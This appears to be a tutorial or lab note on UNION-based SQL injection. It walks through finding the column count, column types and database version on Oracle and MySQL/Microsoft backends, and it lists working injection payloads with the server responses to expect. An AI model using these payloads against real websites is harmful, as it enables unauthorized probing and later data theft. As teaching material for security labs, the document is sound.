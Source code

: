 # Querying the database type and version

+ Microsoft, MySQL
`select @@version`

+ Oracle
` select * from v$version`

+ PostgreSQL
` select version()`

You can use a **UNION** attack with above queries.  

## For Oracle Database:  
1. Determine the number of columns  
`' order by 1 --`  
-> 200 OK: we have one or more columns  
`' order by 2 --`  
-> 200 OK: we have two or moer columns  
`' order by 3 --`  
-> 500 error: we have less than 3 columns

2. Determine the data types of columns  
` ' union select 'a', 'a' from DUAL--`  
-> 200 OK: the two columns are both string type.  
-- In Oracle database, select statement must have a 'from' clause.  
-- DUAL is a dummy table.    

3. Output the version of the database  
 ` ' union select banner, NULL from v$version --`  
 -> 200 OK: and you will find the version info in the context.  
 -- NULL is a placeholder as this database as two columns.  

## For MySQL and Microsoft database:  
1. Determine the number of columns  
`' order by 1 --`  
-> 500 error: this may because we used the wrong comment symbol   
-- In MySQL, a comment started with -- symbol is similar to a comment starting with # symbol.  
-- When using the -- symbol, the comment must be at the end of a line in your SQL statement with a line break after it. So the -- symbol is not practical in MySQL.  
-- So we use # symbol to perform the following parts.  
`' order by 1 #`  
-> 200 OK: we have one or more columns  
`' order by 2 #`  
-> 200 OK: we have two or moer columns  
`' order by 3 #`  
-> 500 error: we have less than 3 columns  

2. Determine the data types of columns  
` ' union select 'a', 'a' #`  
-> 200 OK: the two columns are both string type.  
-- In MySQL database, select statement no needs to have a 'from' clause.  

3. Output the version of the database  
`' union select @@version, NULL #`
-> 200 OK  
-- Don't forget to put two columns in the select clasue.
